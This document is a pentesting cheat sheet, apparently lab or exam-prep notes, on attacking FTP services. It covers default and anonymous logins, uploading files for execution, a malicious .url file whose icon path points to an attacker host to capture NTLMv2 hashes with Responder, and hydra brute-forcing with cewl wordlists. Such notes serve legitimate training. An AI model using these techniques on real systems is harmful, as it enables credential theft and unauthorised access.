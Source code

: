 # FTP

I would say half of the time if you see this open, it provides the answer to the foothold.

## No Creds?

try anonymous:anonymous (ftp:ftp can work as well) login

- test if you can upload files and download files (get and put)
- rmb to ls -la (for hidden files!)
- do try admin:admin (this might actually work! There is at least one PG box that works like this)

If you can upload files, note the name of the FTP directory. If there is a webservice, maybe you can access the FTP directory and execute that file...

If it is a Windows box, you might be able to pull a URI redirection attack if you can upload a file. To do so, prep a .url file:

```bash
#create a file called evil.url and use text editor to put the following strings inside
[InternetShortcut]
URL=whatever
WorkingDirectory=whatever
IconFile=\\<attacker ip>\%USERNAME%.icon
IconIndex=1

# On kali, run responder and prepare to capture the NTLMv2 hash when someone interacts with your evil.url
sudo responder -I tun0 # tun0 usually

# upload evil.url into the FTP folder and wait

```


```bash
ftp <ip>
# anonymous login

ls -la

```
Now if you see "229 Entering Extended Passive Mode" after running ls -la, exit out of the ftp, relogin and run the following

```bash
ftp <ip>
# login
passive # this switches off the passive mode
ls -la  # should work now
```

Alternatively, you can run
``` bash
ftp <ip> -A
# login
ls -la
```

When downloading or uploading files, remember to run ASCII if uploading/downloading text files and Binary if uploading/downloading any other files such as exe, php, zip, pdf etc or else your file may get corrupted!

```bash
ftp> ascii
200 Switching to ASCII mode.
ftp> binary
200 Switching to Binary mode.
```

Download everything with a single command to your current working directory

```bash
wget -m --no-passive ftp://anonymous:anonymous@<target ip> # this also switches off passive mode:)
```


## Only Usernames or Passwords but not both

If there are web services, see if you can compile a list of potential usernames from the webpages
If you have users but no passwords, run Cewl to generate some passwords from the webpages

```bash
# -L for a file containing usernames, -l for a single username. -P for a file containing passwords, -p for a single password
hydra -L users.txt -P password.txt ftp://<ip>

# to generate words from webpage

cewl http://<ip>:<port> > word.list
cewl http://<ip>:<port> --lowercase >> word.list

```
